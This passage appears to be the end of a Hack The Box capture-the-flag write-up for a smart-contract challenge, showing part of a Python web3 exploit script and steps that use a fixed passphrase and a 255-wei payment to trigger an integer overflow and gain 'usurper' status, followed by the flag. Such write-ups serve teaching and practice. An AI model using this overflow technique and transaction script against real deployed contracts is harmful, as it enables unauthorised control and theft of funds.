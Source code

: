 ```python
            'gas': 200000,
            'gasPrice': w3.to_wei('20', 'gwei'),
            'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
            'data': target.functions.checkUsurper(PLAYER_ADDRESS).build_transaction()['data']
        }
        
        signed_check = w3.eth.account.sign_transaction(check_tx, PRIVATE_KEY)
        check_hash = w3.eth.send_raw_transaction(signed_check.raw_transaction)
        
        # Wait for check tx to be mined
        check_receipt = w3.eth.wait_for_transaction_receipt(check_hash, timeout=30)
        
        # Call isSolved
        verify_tx = {
            'from': PLAYER_ADDRESS,
            'to': SETUP_ADDRESS,
            'gas': 200000,
            'gasPrice': w3.to_wei('20', 'gwei'),
            'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
            'data': setup.functions.isSolved().build_transaction()['data']
        }
        
        signed_verify = w3.eth.account.sign_transaction(verify_tx, PRIVATE_KEY)
        verify_hash = w3.eth.send_raw_transaction(signed_verify.raw_transaction)
        
        # Wait for verify tx to be mined
        verify_receipt = w3.eth.wait_for_transaction_receipt(verify_hash, timeout=30)
        
        # Get the flag
        flag = get_flag()
        if flag:
            print(f"\n🏁 FLAG: {flag}")

if __name__ == "__main__":
    exploit()
```

## Execution 

Running the exploit:

1. Connected to the challenge RPC node (port 52231)
2. Used the bytes4 value `0xdeadfade` as our passphrase
3. Sent exactly 255 wei as value to trigger the integer overflow
4. Successfully authenticated but assigned 0 roles (becoming a usurper)
5. Verified the solution by calling `checkUsurper()` and `isSolved()`
6. Retrieved the flag from the menu service

## Flag

`HTB{unkn0wn_1ntrud3r_1nsid3_Eld0r1a_gates}`
